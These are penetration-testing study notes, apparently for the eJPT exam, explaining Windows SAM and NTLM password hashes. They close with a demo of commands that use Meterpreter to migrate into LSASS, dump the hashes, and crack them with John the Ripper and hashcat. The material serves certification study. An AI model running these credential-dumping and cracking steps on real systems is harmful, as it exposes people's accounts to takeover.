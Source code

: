 # 57 Dumping & Cracking Windows Hashes

## Windows Password Hashes

- The Windows OS stores hashed user account password locally in the SAM (Security Accounts Manager) database.
- Hashing is the process of converting a piece of data into another value. A hashing function or algorithm is used to generate the new value. The result of a hashing algorithm is known as a hash or hash value.
- Authentication and verification of user credentials is facilitated by the Local Security Authority (LSA).
- Windows versions up to Windows Server 2003 utilize two different types of hashes:
	- LM
	- NTLM
- Windows disables LM hashing and utilizes NTLM hashing from Windows Vista onwards.


## SAM Database

- SAM (Security Account Manager) is a database file that is responsible for managing user accounts and passwords on Windows. All user account passwords stored in the SAM database are hashed.
- The SAM database file cannot be copied while the operating system is running.
- The Windows NT kernel keeps the SAM database file locked and as s result attackers typically utilize in-memory techniques and tools to dump SAM hashes from the LSASS process.
- In modern versions of Windows, the SAM database is encrypted with a syskey.

Note: Elevated/Administrative privileges are required in order to access and interact with the LSASS process.


## NTLM (NTHash)

- NTLM is a collection of authentication protocols that are utilized in Windows to facilitate authentication between computers. The authentication process involves using a valid username and password to authenticate successfully.
- From Windows Vista onwards, Windows disables lM hashing and utilizes NTLM hashing.
- When a user account is created, it is encrypted using the MD4 hashing algorithm, while the original password is disposed of.
- NTLM improves upon LM in the following ways:
	- Does not split the hash in to two chucks.
	- Case sensitive.
	- Allows the use of symbols and unicode characters. 

```
					!Passw0rd123! ----> MD4 ----> HASH (NTLM Hash)
```


## Dumping & Cracking NTLM Hashes

- We can dump Windows password hashes by leveraging various utilities like:
	- The inbuilt meterpreter `hashdump` command
	- Mimikatz
- After we have dumped the hashes, we can crack them through the use of the following utilities:
	- John The Ripper
	- Hashcat


### DEMO

```shell
meterpreter: pgrep lsass # Migrate to lsass process
meterpreter: migrate <pid>
meterpreter: hashdump

# Save hash locally
nano hashes.txt

# Use John the Ripper
john --list=formats # List all formats john can crack
john --format=NT hashes.txt # Crack with default wordlist
john --format=NT hashes.txt --wordlist=<wordlist> # Add a wordlist

# Use hashcat
hashcat -a 3 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
# -a attack type
# -m hash type

# Unzip rockyou
gzip -d /usr/share/wordlist/rockyou.txt.gz
```


#cybersecurity #eJPT 